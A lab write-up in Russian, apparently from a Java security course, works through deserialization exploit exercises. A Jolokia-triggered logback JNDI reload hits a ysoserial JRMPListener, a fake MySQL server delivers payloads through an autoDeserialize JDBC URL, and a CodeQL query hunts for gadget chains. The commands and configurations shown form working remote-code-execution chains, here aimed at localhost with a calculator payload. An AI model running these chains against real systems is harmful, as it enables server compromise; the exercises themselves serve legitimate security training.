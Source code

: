 ## 5.6.7. Exercise – Find the Gadget

0. Модифицируем `logback.xml`:

   ```xml
   <configuration>
    <appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
        <withJansi>true</withJansi>
        <encoder>
            <pattern>[%thread] %highlight(%-5level) %cyan(%logger{15}) - %msg %n</pattern>
        </encoder>
    </appender>
    <root level="info">
        <appender-ref ref="STDOUT" />
    </root>
    <jmxConfigurator/>
    <insertFromJNDI env-entry-name="rmi://localhost:1099/jndi" as="appName"/>
   </configuration>
   ```

1. Запустим HTTP-сервер, который будет отдавать logback.xml:

   ```shell
   (cd /home/student/FSWA/module-2/build-standalone/src/main/resources && python3 -m http.server 9090)
   ```

2. Запустим spring-приложение с ... в CLASS_PATH:

   ```shell
   (cd /home/student/FSWA/module-2/build-standalone && ./run -new)
   ```

3. Запустим ysoserial в режиме JRMPListener (порт 1099). Пэйлоад -- калькулятор

   ```shell
   (cd /home/student/FSWA/module-2/build-standalone && java -cp ../../tools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "gnome-calculator")
   ```

4. Выполним HTTP-запрос:

   ```shell
   curl 'http://localhost:8080/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/localhost:9090!/logback.xml'
   ```

Результат:

![result](./assets/4/1.jpg)


## 5.6.10. Exercise - MySQL Trickery

Основная идея в том, чтобы использовать мок-сервер MySql, который будет отдавать ysoserial payload. На стороне приложения нужно указать `autoDeserialize=true` в параметрах jdbc, адрес сервера ysoserial и миддлварь

1. Используем https://github.com/fnmsd/MySQL_Fake_Server.git в качестве MySQL-сервера.
   Конфиг:

   ```yml
    {
        "config":{
            "ysoserialPath":"/home/student/FSWA/tools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar",
            "javaBinPath":"java",
            "fileOutputDir":"./fileOutput/",
            "displayFileContentOnScreen":true,
            "saveToFile":true
        },
        "fileread":{
        },
        "yso":{
            "yso_Jdk7u21_calc":["CommonsCollections5","gnome-calculator"]
        }
    }
   ```

   запуск: `python3 server.py`

2. Запустим spring (mvn clean install && ./run -new -debug).

   HelloController:

   ```
    package hello;

    import com.fasterxml.jackson.databind.DeserializationConfig;
    import com.fasterxml.jackson.databind.ObjectMapper;
    import org.springframework.web.bind.annotation.*;
    import org.springframework.web.multipart.MultipartFile;

    import java.sql.*;

    @RestController
    public class HelloController {

        @RequestMapping("/")
        public String index() throws java.lang.ClassNotFoundException, java.sql.SQLException {
            String driver = "com.mysql.cj.jdbc.Driver";
            String user = "yso_Jdk7u21_calc";
            String password = "ubuntu";
            //String url = "jdbc:mysql://0.0.0.0:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true";
            String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc";
            Class.forName(driver);
            Connection conn = DriverManager.getConnection(url, user, password);

            return url;
        }
    }
   ```

3. Сделаем запрос: curl 'http://localhost:8080'

Результат:

![result](./assets/4/2.jpg)


## 5.6.13. Exercise - Find another Gadget

```java
import semmle.code.java.dataflow.DataFlow

class CustomSink extends DataFlow::ExprNode {
  CustomSink() {
    exists(Method m | m = this.asExpr().(MethodAccess).getMethod() |
      m.hasName("readObject") and
      m.getDeclaringType().hasQualifiedName("org.apache.axis2.context.externalize", "SafeObjectInputStream")
    )
  }
}

class CustomSource extends DataFlow::ExprNode {
  CustomSource() {
    exists(Method m | m.calls(this.asExpr().(MethodAccess).getMethod()) |
      m.hasName("readExternal")
      //and m.getDeclaringType().hasQualifiedName("java.io", "ObjectInputStream")
    )
  }
}

module MyFlowConfiguration implements DataFlow::ConfigSig {
  predicate isSource(DataFlow::Node source) {
    source instanceof CustomSource
  }

  predicate isSink(DataFlow::Node sink) {
    sink instanceof CustomSink
  }
}

import semmle.code.java.Conversions

module MyFlow = DataFlow::Global<MyFlowConfiguration>;

from DataFlow::Node source, DataFlow::Node sink, Interface iface
where MyFlow::flow(source, sink)
and iface.hasQualifiedName("java.io", "Externalizable")
and not sink.asExpr().getFile().getRelativePath().matches("%test%")
and exists(
  Class c | c.fromSource() and c.getCompilationUnit() = source.asExpr().getCompilationUnit() and c.hasSupertype+(iface) and (exists(ConversionSite cs | cs.isImplicit() | cs.getType().toString().matches("MetaDataEntry")))
)
select source, sink, "ok", source.asExpr().getCompilationUnit()

```
